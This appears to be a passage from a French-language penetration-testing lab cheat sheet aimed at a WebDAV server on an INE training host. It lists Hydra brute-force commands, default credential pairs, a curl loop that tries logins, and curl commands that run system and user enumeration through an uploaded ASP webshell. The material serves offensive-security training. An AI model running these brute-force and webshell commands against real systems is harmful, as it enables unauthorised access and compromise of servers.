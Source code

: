 
## 🔐 6. Techniques d'authentification

### Brute force WebDAV avec Hydra
```bash
# Brute force HTTP Basic Auth
hydra -L users.txt -P passwords.txt http-get://demo.ine.local/webdav

# Avec utilisateur connu
hydra -l bob -P passwords.txt http-get://demo.ine.local/webdav

# Options recommandées
hydra -L users.txt -P passwords.txt -t 16 -f http-get://demo.ine.local/webdav
```

### Credentials par défaut IIS/WebDAV
```bash
# Credentials courants à tester
admin:admin
administrator:password
bob:password
iis:iis
webdav:webdav
guest:guest
test:test
user:password
```

### Test manuel d'authentification
```bash
# Avec curl
curl -u bob:password_123321 http://demo.ine.local/webdav

# Test différents utilisateurs
for user in admin administrator bob guest; do
    curl -u $user:password http://demo.ine.local/webdav 2>/dev/null | grep -q "200 OK" && echo "SUCCESS: $user:password"
done
```

---

## 📋 7. Commandes post-exploitation

### Énumération système via webshell
```bash
# Informations système
curl "http://demo.ine.local/webdav/webshell.asp?cmd=whoami"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=hostname"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=systeminfo"

# Exploration filesystem
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir+C%3A%5C"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir+%22C%3A%5CProgram+Files%22"

# Utilisateurs et groupes
curl "http://demo.ine.local/webdav/webshell.asp?cmd=net+user"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=net+localgroup+administrators"

# Processus et services
curl "http://demo.ine.local/webdav/webshell.asp?cmd=tasklist"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=sc+query"
```
